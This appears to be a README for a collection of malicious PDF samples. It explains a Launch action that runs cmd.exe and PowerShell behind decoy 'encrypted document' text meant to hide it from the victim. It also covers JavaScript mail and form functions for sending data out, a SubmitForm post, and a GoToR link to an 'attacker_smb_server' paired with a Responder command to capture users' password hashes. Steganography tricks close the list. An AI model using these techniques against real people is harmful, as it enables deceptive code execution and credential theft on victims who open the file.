


# PDF:

Open pdf in vim for inspect them...

## [1] claw_powershell.pdf

Run powershell command.. A warning will be prompt to the user.<br>
<br>
But if we scroll up, we can see:<br>

We use:
- `Action/S/Launch/Win` for specifying wich action to do, in this case lunch action on windows.
- `/F (cmd.exe)` for lunch cmd.exe.
- `/P (/C start powershell.exe -Command "echo 'hello, this windows will be close in 10sec...'; sleep 10"` is the parameters to give to cmd.exe
- `This document is encrypted
To view the encrypted content please tick the "Do not show this message again" box
and press Open.` is for "hide" the previouses steps. (3lines and the victim will not see what we really do (unless if he scroll up))
### [!] Modify message popup will only work with adbe < 9.3.4

---

## [2] claw_js-alert.pdf

Using `/JS` will execute some javascript. Some commands are restricted.<br>
But we can steal launch popup or send form.
###email functions:
With adobe you have 4 functions for send emails:
- `app.mailMsg()`    : This function sends an email message with no attachments.
- `doc.mailForm()`   : This function sends the form data in fdp (Form Data Format) as a file attachment to the email. (dont work on adobe 9)
- `doc.mailDoc()`    : This function sends the entire PDF file as an email attachment.
- `doc.submitForm()` : This function can send form data in a variety of formats.

[AcroJS API Reference](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/js_api_reference.pdf)

---

## [3] claw_post.pdf

Make a post .. <br>
```pdf
/S /SubmitForm
/F
<<
/F (http://172.25.0.7:8080/test.php)
/FS /URL
```

- `/S /SubmitForm`                       : The  type  of  action (in this case /SubmitForm
- `/F (http://172.25.0.7:8080/test.php)` : The  URL of the form
- `/FS /URL`                             : The file specificatin, in this case "/URL"

### [!] A popup will prompt the user for accept the post or not. The message can't be change (url + warnings)

Very usefull for retrieve adobe version (Reco):<br><br>


---

## [4] claw_responder.pdf

Retrieve username and hash .<br>
In this this case we use:
- `GoToR|GoToE` : (Go To Remote & Go To Embedded) The function to opens an embedded PDF file automatically without notifying the user.In this case we use `/F` (the location off the pdf) "/F (\\\\attacker_smb_server\\test)"

You should first run:<br>
```sh
sudo responder -I <INTERFACE> -wF
```
on the attacker host..<br>


---

## [5] claw_simple_steg.pdf

Hide stuff on non used object.

---

## [6] claw_b64-comment_steg.pdf

Hide stuff in pdf comment using `%`.

---

## [7] claw_img_steg.pdf

Hide stuff inside an image used by the pdf.<br>
For extract :<br>
```sh
binwalk --dd='jpeg:jpg' claw_img_steg.pdf
steghide extract -sf _claw_img_steg.pdf.extract/*jpg
#no password.. just press enter
```


